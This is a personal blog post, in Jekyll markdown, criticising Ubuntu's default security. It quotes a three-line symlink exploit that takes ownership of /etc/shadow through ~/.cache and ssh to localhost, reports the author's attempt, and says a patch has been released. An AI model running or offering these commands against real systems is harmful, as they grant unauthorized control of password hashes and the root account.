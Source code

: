 ```yaml
---
layout: post
title: 'uuurrgh... Ubuntu'
tags:
  - Security
  - Ubuntu
  - ugly
categories:
  - LinuxUnix
  - Security
  - Software

---
```


<a href="http://www.ubuntu.com/">Ubuntu</a>, you all should know, isn't my preferred operating system. It's very nice for linux beginners and may decrease some manual work at private machines, but when I've heard about the actual bug I'm very confused why we still have to use Ubuntu in our PC pools and why some work groups are emphatic about this system and why we have to administrate their server and local machines with Ubuntu.

I'm still wondering why simple users in Ubuntu systems can out of the box read all log files or the shadow.. That is not that kind of security I'm dreaming about ;)

The actual bug is very simple (<a href="https://twitter.com/jonoberheide/status/18009527979">via</a>):


{% highlight bash %}
rm -rf ~/.cache
ln -s /etc/shadow ~/.cache
ssh localhost
{% endhighlight %}


Now you've owned the shadow file and you are able to modify roots pass phrase! It's just too easy...

By the way I tried it by myself and got a funny message:


{% highlight bash %}
mscharm@SERVER ~ % ssh localhost
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that the RSA host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
aa:bb:cc:dd:ee:ff:gg:hh:ii:jj:kk:ll:mm:nn:oo:pp.
Please contact your system administrator.
Add correct host key in /homes/mscharm/.ssh/known_hosts to get rid of this message.
Offending key in /homes/mscharm/.ssh/known_hosts:10
RSA host key for localhost has changed and you have requested strict checking.
Host key verification failed.
255 mscharm@SERVER ~ %
{% endhighlight %}



And my friend Rumpel also tried this exploit and after lunch I just heard him saying


<blockquote>fuck, bolted out, by my self...</blockquote>


not able to disable his screensaver. Maybe he changed a little bit to much in his shadow file!? ;)


Fortunately the patch is released, so have a lot of fun while updating your systems. You should reboot after the update, otherwise the bug is still enabled...
